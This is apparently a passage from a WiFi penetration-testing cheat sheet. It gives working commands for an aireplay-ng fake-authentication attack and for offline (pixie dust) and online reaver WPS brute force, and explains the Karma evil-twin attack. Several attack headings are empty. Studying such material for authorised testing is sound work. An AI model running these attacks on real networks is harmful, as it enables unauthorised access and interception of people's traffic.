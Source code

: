We're looking for access point, in which the column **Lck** is equal to **No**.

```
# Get your MAC address
macchanger --show <INTERFACE>

# Fake authentication attack
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>
```

#### Offline

```
# Offline brute force (pixie dust)
reaver -i wlan0 -b 00:06:91:DE:B1:30 -SNLAvv  -c 1 -K
```

#### Online

```
# Online brute force  
reaver -i <INTERFACE> -b <BSSID> -SNLAsvv -d 1 -r 5:3 -c <CHANNEL_NUMBER>
```

### Other WEP Attacks

#### Hirte attack



#### Cafe Latte attack



### Rogue access point

#### Karma attack

Vulnerable client devices broadcast a "preferred network list" (PNL), which contains the SSIDs of access points to which they have previously connected and are willing to automatically reconnect without user  intervention. These broadcasts are not encrypted and hence may be received by any WiFi access point in range. The KARMA attack consists in an access point receiving this list and then giving itself an SSID from the PNL, thus becoming an evil twin of an access point already trusted by the client.

Once that has been done, if the client receives the malicious  access point's signal more strongly than that of the genuine access  point (for example, if the genuine access point is nowhere nearby), and  if the client does not attempt to authenticate the access point, then  the attack should succeed. If the attack succeeds, then the malicious  access point becomes a man in the middle (MITM), which positions it to deploy other attacks against the victim device.

#### Fake AP



#### MITM